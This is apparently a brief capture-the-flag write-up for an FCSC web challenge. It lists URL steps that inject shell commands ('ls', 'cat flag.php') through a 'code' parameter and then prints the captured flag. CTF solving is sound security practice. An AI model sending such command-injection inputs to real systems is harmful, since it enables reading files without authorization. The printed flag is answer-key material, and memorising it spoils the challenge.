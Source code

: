 First step : 
```http://challenges2.france-cybersecurity-challenge.fr:5001/```<br />
Second step : 
```http://challenges2.france-cybersecurity-challenge.fr:5001/?source=1```<br />
Third step : 
```http://challenges2.france-cybersecurity-challenge.fr:5001/?code=ls```<br />
Fourth step : 
```http://challenges2.france-cybersecurity-challenge.fr:5001/?code=cat%20flag.php```<br />

And look the source code : 

$flag = "FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}";

